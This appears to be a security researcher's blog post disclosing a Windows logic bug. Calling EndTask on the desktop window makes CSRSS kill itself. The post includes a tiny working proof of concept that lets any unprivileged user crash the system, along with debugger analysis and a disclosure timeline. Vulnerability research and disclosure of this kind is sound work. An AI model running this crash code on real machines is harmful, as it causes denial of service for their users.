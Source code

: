 ```yaml
---
layout: post
title: An unexpected logic bug on Win32k
author: hugsy
tags: [windows, kernel, logic, bug, win32k]
header-img: img/CDA9D98DF912DE08CB61AD0A3A148723A37BC3F3.png
header-font: black
---
```


## The short version

The short version is that there's a small logic bug in  `user32!EndTask()` which does really check the `HWND` handle passed when forcelly killing the process, allowing unprivileged process to BSoD the host by killing a critical process (`csrss`). And bonus the PoC code #FitsInATweet:

```c
int WinMain(HINSTANCE h, HINSTANCE ins, LPSTR cmd, int nb)
{
    EndTask(GetDesktopWindow(), 0, 1);
    return 0;
}
```

Just compile, run (here on a build 19569.1000 x64) and enjoy:

![bsod](https://i.imgur.com/DRxULeh.png)


## The less short version

Reversing `Win32k.sys` driver has been my hobby lately mostly to understand it (finally) seriously - if there is such a thing. This is a really small funny logic bug I encountered while reversing it, which I don't feel too bad disclosing since there is [no security exploitability](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria){:target="_blank"} (simply annoying your sysadmin).


### The juicy part

The legacy function [EndTask](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-endtask){:target="_blank"} can be used to forcefully close the specific window whose handle is passed as argument, and free all associated resources. Although deprecated according to the MSDN, it is still callable even on the latest Windows versions.

The function `user32!EndTask()` is merely a wrapper designed to forward some specific messages to the [CSRSS](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem){:target="_blank"} via an ALPC, using the exported function
`ntdll!CsrClientCallServer` with the ApiNumber 0x30401. Easily enough, the function takes the handle to the window to shut down. The function operates with the thread's token, and is unprivileged. Starting playing around, I remembered that `GetDesktopWindow()` will return a valid handle to the desktop window, but has [many interesting properties](https://devblogs.microsoft.com/oldnewthing/20040224-00/?p=40493){:target="_blank"} including that that it is owned by `csrss.exe`. That can be quickly demonstrated using the following code:

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char msg[1024]={0,};
    HWND hwnd = GetDesktopWindow();
    DWORD dwProcessId;
    GetWindowThreadProcessId(hwnd, &dwProcessId);
    sprintf(msg, "hwnd=%p pid=%lu\n", hwnd, dwProcessId);
    MessageBoxA(0,msg,0,MB_OK);
    return 0;
}
```
which will output the PID of CSRSS

![finding_csrss](https://i.imgur.com/Q4XsJZP.png)


In turn, CSRSS will consume that message and call `winsrvext!SrvEndTask()` then `winsrvext!EndTask()`. In this function, in order to determine the process to terminate `csrss` will invoke `GetWindowThreadProcessId()` and will use the found process id value to look into the [`CSR_PROCESS`](http://www.geoffchappell.com/studies/windows/win32/csrsrv/api/process/process.htm){:target="_blank"} linked
list (via `csrsrv!CsrRootProcess`), and find the `CSR_PROCESS` structure associated to such PID. From `winsrvext.dll`:

```asm
_EndTask      ; NTSTATUS __fastcall EndTask(HWND hWnd, int a2)
_EndTask      _EndTask        proc near               ; CODE XREF: SrvEndTask+119↓p
_EndTask                                              ; DATA XREF: .pdata:000000000001D21C↓o
[...]
_EndTask+A7                   lea     rdx, [rsp+120h+dwProcessId] ; lpdwProcessId
_EndTask+AC                   mov     rcx, rdi        ; hWnd
_EndTask+AF                   call    cs:__imp_GetWindowThreadProcessId
```

### The bug

And therein lied the bug: as shown above with the small C snippet, the owner of `GetDesktopWindow()` is `csrss` itself, therefore the lookup will return the `CSR_PROCESS` structure of `CSRSS` (which happens to be the first entry in the `CsrRootProcess` linked list). Finally, `winsrvext!EndTask()` will proceed to call `ntdll!NtTerminateProcess()` passing the handle to the
process `CSRSS`, which has the value `(HANDLE)-1` (i.e. `GetCurrentProcess()`). WinDbg can be used to confirm that behavior:

```
0: kd> dps poi( csrsrv!CsrRootProcess )
00000218`7d004550  00000000`00000c14 <- CSR_PROCESS.ClientId
00000218`7d004558  00000000`00000c18
00000218`7d004560  00000218`7d008bf0 <- CSR_PROCESS.LinkList
00000218`7d004568  00000218`7d04b3a0 <- CSR_PROCESS.ThreadList
00000218`7d004570  00000218`7d005368 [...]
00000218`7d004578  00000218`7d0486b8
00000218`7d004580  00000000`00000000
00000218`7d004588  00000000`00000000
00000218`7d004590  00000000`00000000
00000218`7d004598  00000000`00000000
00000218`7d0045a0  ffffffff`ffffffff <<- CSR_PROCESS.ProcessHandle (i.e. value passed to NtTerminateProcess)
00000218`7d0045a8  00000040`00000005
[...]
```

Therefore, this will make `CSRSS` killing itself when invoking calling the syscall `nt!NtTerminateProcess(GetCurrentProcess(), 0 )`. As a critical process, killing CSRSS will immediately result in a BSoD, which BugCheck clearly shows. Also note that this crash can be triggered by any user even with any privilege. In WinDbg the faulting stack trace of our BSoD retraces exactly everything we show:

```
CRITICAL_PROCESS_DIED (ef)
        A critical system process died
[...]
Arguments:
Arg1: ffffe30f47ce14c0, Process object or thread object
Arg2: 0000000000000000, If this is 0, a process died. If this is 1, a thread died.
[...]

STACK_TEXT:
ffff8803`2a71f280 fffff801`795c75c1 : [...] : nt!PspCatchCriticalBreak+0xa9
ffff8803`2a71f320 fffff801`79439fc0 : [...] : nt!PspTerminateAllThreads+0x175e3d
ffff8803`2a71f390 fffff801`79439da9 : [...] : nt!PspTerminateProcess+0xe0
ffff8803`2a71f3d0 fffff801`78fd2d15 : [...] : nt!NtTerminateProcess+0xa9
ffff8803`2a71f440 00007ff9`83b5c644 : [...] : nt!KiSystemServiceCopyEnd+0x25
000000b6`d35befd8 00007ff9`809066e5 : [...] : ntdll!NtTerminateProcess+0x14
000000b6`d35befe0 00007ff9`80906bae : [...] : winsrvext!EndTask+0x235
000000b6`d35bf110 00007ff9`80975af4 : [...] : winsrvext!SrvEndTask+0x11e
000000b6`d35bf380 00007ff9`83b2cedf : [...] : CSRSRV!CsrApiRequestThread+0x484
000000b6`d35bf810 00000000`00000000 : [...] : ntdll!RtlUserThreadStart+0x2f
```

## Final words

This was a good lesson, mostly because I would never have thought finding a (cheap) logic bug in an API that is around for decades and probably gleaned at many times by people way smarter.

Also, I've reported more Win32k bugs to MS which I'll be writing up on soon.

That's all for this quick post!

✌

## Disclosure timeline

  * 2019-12-09 : Bug found
  * 2020-02-08 : Finally found some time to do some analysis
  * 2020-02-09 : Issue submitted to MSRC (case 56511)
  * 2020-03-04 : EWONTFIX
